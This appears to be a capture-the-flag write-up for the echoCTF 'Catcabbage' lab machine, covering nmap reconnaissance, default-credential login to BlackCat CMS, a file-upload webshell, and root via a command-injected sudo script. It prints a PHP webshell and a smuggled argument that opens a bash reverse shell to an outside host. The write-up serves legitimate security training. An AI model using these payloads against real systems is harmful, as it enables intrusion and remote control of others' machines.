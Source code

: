 ```yaml
---
description: >-
  Catcabbage echoCTF Machine
title: Catcabbage (Intermediate)                # Add title here
date: 2025-02-19 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Catcabbage.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.219    catcabbage.echocity-f.com
```

### Content

-  Default Credentials
-  Blackcat Cms v1.4 - Remote Code Execution (RCE) 
-  RCE in broccoli-compass

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.219
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.219 ()   Status: Up
Host: 10.0.160.219 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.219
Nmap scan report for 10.0.160.219
Host is up, received user-set (0.17s latency).
Scanned at 2025-02-20 00:03:42 EST for 42s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 ea:cf:8b:53:37:68:9b:9c:f9:a9:c8:e0:f5:cd:bf:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNkNFS/WNRsP6swoQVM88OHkWuu/itOfvhNRQdspAqMhCpN0qTnLkRmWjmAEmcfM7f8pjkAYuEHzvcMMkx4vvLM=
|   256 e4:2e:76:72:24:c4:0b:a2:3b:79:bb:8a:65:30:b2:a3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOQbbEM7sFZ+8wW3CKzvSG717VFtghPe4egPndkGq4j6
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-robots.txt: 10 disallowed entries 
| /account/ /backend/ /config.php /framework/ /include/ 
|_/modules/ /temp/ /kit2/config /kit2/framework /kit2/logfile
|_http-title: BlackCat CMS - Maintenance
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation
There is only HTTP port open which has a web page only:

![](/assets/img/Pasted-image-20250219230503.png)

However, every resource redirects to `http://catcabbage.echocity-f.com/` which means we need to add an entry to our `/etc/hosts` file:
```bash
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.234    superclass.echocity-f.com

```

Looking for exploits on this CMS, we identified the following [Blackcat CMS RCE](https://www.exploit-db.com/exploits/51605)

Now, the important thing here is that the exploit requires authentication, so we tried with the most common pair of credentials, and voila, the following credentials did work `admin:admin123`.

The exploit marks the following steps:
1. Login to account as admin
2. Go to admin-tools => jquery plugin (http://localhost/BlackCatCMS-1.4/upload/backend/admintools/tool.php?tool=jquery_plugin_mgr)
3. Upload zip file but this zip file must contains poc.php 
4. Go to http://localhost/BlackCatCMS-1.4/upload/modules/lib_jquery/plugins/poc/poc.php?code=cat%20/etc/passwd

So first we need to access the admin-tools and jQuery Plugin Manager feature:
![](/assets/img/Pasted-image-20250219230715.png)

Second, we need to create a file with our webshell:
```bash
<?php system($_REQUEST["cmd"]); ?>
```
Then zip the file so it can be accepted by the application:
```bash
zip shell.zip shell.php
  adding: shell.php (stored 0%)
```
And finally, go to the route where the shell was unzipped `http://catcabbage.echocity-f.com/modules/lib_jquery/plugins/shell/shell.php`

![](/assets/img/Pasted-image-20250219231300.png)

If everything goes as planned you'll have a webshell.

### Privilege Escalation

I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@catcabbage:/var/www/html/modules/lib_jquery/plugins/shell$ sudo -l
Matching Defaults entries for www-data on catcabbage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on catcabbage:
    (ALL : ALL) NOPASSWD: /usr/local/bin/cabbage
```
This is the content of it:
```bash
www-data@catcabbage:/var/www/html/modules/lib_jquery/plugins/shell$ cat /usr/local/bin/cabbage
#! /usr/bin/env node
var args = process.argv.slice(2);
var compileSass = require('broccoli-compass');

if(args.length<1)
{
  console.error('Error, missing list of SASS files to process...');
  process.exit(1);
}
compileSass({}, {
    'files': args
```
As usual, the vulnerability relays on the imported library, in this case `broccoli-compass`, there is a vulnerability reported as [Remote code execution in broccoli-compass](https://security.snyk.io/vuln/SNYK-JS-BROCCOLICOMPASS-5458974), after reading the article and with the aid of DeepSeek I came with the following payload:
```bash
www-data@catcabbage:/tmp$ sudo /usr/local/bin/cabbage '/tmp/file.scss; bash -c "bash -i >& /dev/tcp/10.10.5.122/1234 0>&1"'
```
And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- Credentials identified for BlackCMS `admin:admin123`

### Notes

-  Nothing fancy here, super classic exploits.

### References

- [Blackcat CMS RCE](https://www.exploit-db.com/exploits/51605)
- [Remote code execution in broccoli-compass](https://security.snyk.io/vuln/SNYK-JS-BROCCOLICOMPASS-5458974)





